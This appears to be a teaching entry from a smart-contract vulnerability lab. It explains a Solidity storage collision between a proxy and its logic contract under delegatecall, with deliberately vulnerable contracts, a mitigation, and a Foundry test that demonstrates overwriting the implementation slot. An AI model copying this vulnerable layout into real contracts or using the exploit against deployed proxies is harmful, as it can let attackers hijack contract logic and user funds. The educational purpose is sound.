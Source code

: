 # Storage collision
[Storage-collision.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Storage-collision.sol)  
**Name:** Storage Collision Vulnerability

**Description:**  
The vulnerability is that both the Proxy and Logic contracts use the same storage slot (slot 0) to store important variables,
namely the implementation address in the Proxy contract and the GuestAddress in the Logic contract.
Since the Proxy contract is using the delegatecall method to interact with the Logic contract,
they share the same storage. If the foo function is called,
it overwrites the implementation address in the Proxy contract, which results in an unexpected behavior.

**Mitigation:**  
One approach to mitigating this issue is to design the storage layout of the proxy and logic contracts to be consistent with each other.

**REF:**

https://blog.openzeppelin.com/proxy-patterns

**Proxy** **Contract:**
```
contract Proxy {
    address public implementation; //slot0

    constructor(address _implementation) {
        implementation = _implementation;
    }

    function testcollision() public {
        bool success;
        (success, ) = implementation.delegatecall(
            abi.encodeWithSignature("foo(address)", address(this))
        );
    }
}

contract Logic {
    address public GuestAddress; //slot0

    constructor() {
        GuestAddress = address(0x0);
    }

    function foo(address _addr) public {
        GuestAddress = _addr;
    }
}
```
**How to Test:**

forge test --contracts src/test/**Storage-collision.sol**-vvvv  
```
// A function to test storage collision exploit.
function testStorageCollision() public {
    // A new instance of LogicContract is created.
    LogicContract = new Logic();

    // A new instance of ProxyContract is created, and the address of the LogicContract is passed to its constructor.
    ProxyContract = new Proxy(address(LogicContract));

    // Logs the current address of the implementation contract (LogicContract).
    console.log(
        "Current implementation contract address:",
        ProxyContract.implementation()
    );

    // Calls the testcollision() function of the ProxyContract. This function presumably changes the storage slot that is also used to store the address of the LogicContract.
    ProxyContract.testcollision();

    // Logs the overwritten address of the implementation contract.
    console.log(
        "Overwritten slot0 implementation contract address:",
        ProxyContract.implementation()
    );

    // Logs "Exploit completed".
    console.log("Exploit completed");
}
```
Red box: overwritten slot0.
![Alt text](image-17.png)